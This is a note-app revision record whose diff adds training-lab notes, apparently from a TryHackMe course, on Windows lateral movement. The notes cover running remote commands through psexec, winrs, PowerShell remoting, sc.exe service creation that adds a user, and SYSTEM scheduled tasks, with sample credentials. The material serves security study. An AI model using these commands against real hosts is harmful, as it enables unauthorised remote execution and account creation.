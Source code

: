 id: d80e12d1a84b4108af36b282cf178e73
parent_id: 0986f145a648424b89a6bf0cb8f818a5
item_type: 1
item_id: 2746679238ae490999cfd0e1384c3390
item_updated_time: 1657615748714
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"lable)\\\n\\\n\"],[1,\"Requires Administrative privileges to execute\\\n\\\n\"],[0,\"`psexec6\"]],\"start1\":30,\"start2\":30,\"length1\":16,\"length2\":63},{\"diffs\":[[0,\"cmd.exe`\"],[1,\"\\\n\\\n# Remote Process Creation using WinRM (Port 5985 or 5986 (HTTPS) available)\\\n\\\nIf PS-Remoting is enabled, we can establish a remote powershell\\\n\\\n`winrs.exe -u:Administrator -p:Mypass123 -r:target cmd`\\\n\\\nIf we have no desktop mode, we will have to key everything inside Powershell\\\n\\\n`$username = 'Administrator'; $password = 'Mypass123'; $securePassword = ConvertTo-SecureString $password -AsPlainText -Force; $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;`\\\n\\\n`Enter-PSSession -Computername TARGET -Credential $credential`\\\n\\\nWe can also invoke a command instead of opening a shell\\\n\\\n`Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}`\\\n\\\n# Remotely Create service using sc (RPC ports 135,49152-max, or RPC over SMB named pipes)\\\n\\\nRequires Admin privileges to execute\\\n\\\nCreate a service on the remote host with SC.exe, and a connection will be made using DCE/RPC\\\n\\\n![9c402f209c625a5bf73f49422f6e5ee8.png](:/2ef82435fe464f7e8fa60e7d13cc3253)\\\n\\\n## `Create a new user on the target machine`\\\n\\\n`sc.exe \\\\\\\\TARGET create THMservice binPath= \\\"net user munra Pass123 /add\\\" start= auto sc.exe \\\\\\\\TARGET start THMservice`\\\n\\\n# Create Scheduled Tasks Remotely\\\n\\\n`schtasks /s TARGET /RU \\\"SYSTEM\\\" /create /tn \\\"THMtask1\\\" /tr \\\"<command/payload to execute>\\\" /sc ONCE /sd 01/01/1970 /st 00:00 schtasks /s TARGET /run /TN \\\"THMtask1\\\"`\\\n\\\nThe scheduled task is made to run only once at the specified time and date given. Since we are going to run the task manually, the specifics don't matter\\\n\\\n\\\\- Command output will not be available to us since SYSTEM will be running - **BLIND ATTACK**\\\n\\\nTo delete the task: `schtasks /S TARGET /TN \\\"THMtask1\\\" /DELETE /F`\"]],\"start1\":145,\"start2\":145,\"length1\":8,\"length2\":1701}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-07-12T08:53:19.273Z
created_time: 2022-07-12T08:53:19.273Z
type_: 13